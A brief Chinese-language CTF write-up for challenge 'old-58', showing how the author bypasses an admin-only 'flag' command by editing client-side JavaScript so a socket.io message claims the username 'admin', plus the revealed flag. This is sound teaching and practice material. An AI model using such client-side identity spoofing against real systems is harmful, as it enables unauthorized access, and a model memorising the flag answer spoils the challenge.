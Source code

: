 # old-58_150

* 這一題一進去可以看到整片空白只有下面的 send
* 隨便按了一下跟我說 command not found
* 直接猜他是 command injection
* 輸入 help 查看一下有什麼命令可以用 `ls id flag help` 啪啪啪直接打臉 ...
* 直接輸入 flag 看到 permission denied 要 admin 才可以查看
* 所以直接改 js 
    ```js=  
    $(function () {
      var username = "admin";
      var socket = io();
      $('form').submit(function(e){
        e.preventDefault();
        socket.emit('cmd',username+":"+'flag');
        $('#m').val('');
        return false;
      });
      socket.on('cmd', function(msg){
        $('#messages').append($('<li>').text(msg));
      });
    });  
    ```
    放在 console 裡面之後輸入 flag 
    `permission denied... admin only!`
    `FLAG{do_you_know_about_darkhotel}`
* flag : FLAG{do_you_know_about_darkhotel}
